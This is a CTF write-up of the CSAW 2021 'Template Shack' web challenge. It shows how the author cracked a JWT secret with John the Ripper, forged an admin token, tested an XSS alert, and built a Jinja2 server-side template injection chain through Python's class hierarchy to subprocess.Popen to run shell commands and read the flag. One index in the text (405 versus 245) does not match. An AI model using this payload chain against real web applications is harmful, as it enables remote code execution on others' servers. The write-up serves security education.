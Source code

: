 
---

# Template Shack


Writeup by: [SinDaRemedy](https://github.com/SinDaRemedy)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/Template_Shack/)

---

![AltText](./PreGame/ScreenShots/Screen Shot 2021-09-14 at 5.03.40 AM.png
@SinDaRemedy)

## Initial Research

When I entered the site the first thing i noticed was the login portal. I inspected the page source, clicked on sb admin 2 to see if I'd find anyting interesting but there was nothing to be found. 

![[Screen Shot 2021-09-14 at 4.11.55 AM.png]]

Of course, as most of us would do, I tried to login in with the common default creds and then proceeded to look for other vectors.  Checked out the browser inspector and burpsuite  and realized there was a token in the cookies. 

I made note of the server and checked for vulnerabilities for Python 3.6.9 then found [**CVE-2019-16935**](https://nvd.nist.gov/vuln/detail/CVE-2019-16935#vulnCurrentDescriptionTitle) and a weakness enumeration for XSS at [**CWE-79**](http://cwe.mitre.org/data/definitions/79.html)

![[Screen Shot 2021-09-14 at 4.26.54 AM.png]]

![[Screen Shot 2021-09-14 at 12.49.18 AM.png]]

Since token-based authentication doesn't require that the server know about the session data and I had a hash I figured this would be a possible attack vector. I made a file with the token and and decoded the hash with John-the-Ripper (john).  We cracked the hash and the password was "**supersecret**"

![[Screen Shot 2021-09-14 at 1.22.07 AM.png]]

At the same time I was also working on decoding and creating a new web token for the admin. I changed the guest to admin and entered the password in order to get my new hash.

![[Screen Shot 2021-09-14 at 12.48.59 AM 1.png]]

## Initial Access/Testing

![[Screen Shot 2021-09-14 at 4.31.10 AM.png]]

Then it was time for the next logical step.. Let's see if this exploit actually works!

First thing I wanted to see is if I can get an XSS alert

``` Javascript
username=<Script Language="Javascript">alert("You've been attacked!");</Script>
```

![[Screen Shot 2021-09-14 at 1.24.59 AM.png]]


Then I wanted to see if we could get a Server Side Template Injection with jinja by doing some basic math. 

``` python
{{7*7}}
```

![[Screen Shot 2021-09-14 at 1.22.55 AM.png]]

## Payload 

Immediately after started to craft a payload with a couple of things in mind. 

- The goal was to get command execution
- One thing I knew was python **metadata properties can be accessed through any object. **
	- I needed to first start with accessing the "**__class__**" from the metaproperties.
		- Then proceed to accessing the Method Resolution Object (**MRO**) since from there I could start to enumerate the hierarchy and subclasses. 
		- From the subclasses we have to try to gain access to a class that will allow us to execute commands

**All payloads are entered after the url as a path**

``` python
{{''.__class__}}
```

![[Screen Shot 2021-09-14 at 2.31.10 AM.png]]

``` python
{{''.__class__.__mro__}}
```

![[Screen Shot 2021-09-14 at 3.41.32 AM.png]]

```python
{{' '.__class__.__mro__[0].__subclasses__()}}
```

![[Screen Shot 2021-09-14 at 2.40.48 AM.png]]

```python
{{''.__class__.__mro__[1].__subclasses__()}}
```

![[Screen Shot 2021-09-14 at 2.42.39 AM.png]]

I copied and pasted all the output in to "subclasses.txt".  cleaned up the data so that it was more manageable. 

``` shell
cat subclasses.txt| tr ',' '\n' > subclasses_new.txt
```

Since the goal of this payload is to [execute a command through the shell](https://docs.python.org/2/library/subprocess.html#popen-constructor) I wanted to begin searching for the **Popen** class. I filtered the search in "subclasses_new.txt" for "Popen" and seen that  "subprocess.Popen" was indexed as #405 on the list (Starting with 0). 

![[Screen Shot 2021-09-14 at 3.04.35 AM.png]]

I confirmed that it was the indexed as 405 in the list by adding it to the to the payload. 

``` python
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

![[Screen Shot 2021-09-14 at 3.33.26 AM.png]]

After making note of that I continued to modify the script as shown below and test the command execution.

``` python
{{[].__class__.__mro__[1].__subclasses__()[405]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```

![[Screen Shot 2021-09-14 at 3.40.04 AM.png]]

You can see that flag.txt is in the current directory so now all there was to do was change the command in order to retrieve the flag. So we change "ls -la" to "cat flag.txt" 

![[Screen Shot 2021-09-14 at 4.06.11 AM.png]]

## Victory!!

Now to submit the flag!

flag{easy_jinja_SSTI_RCE}


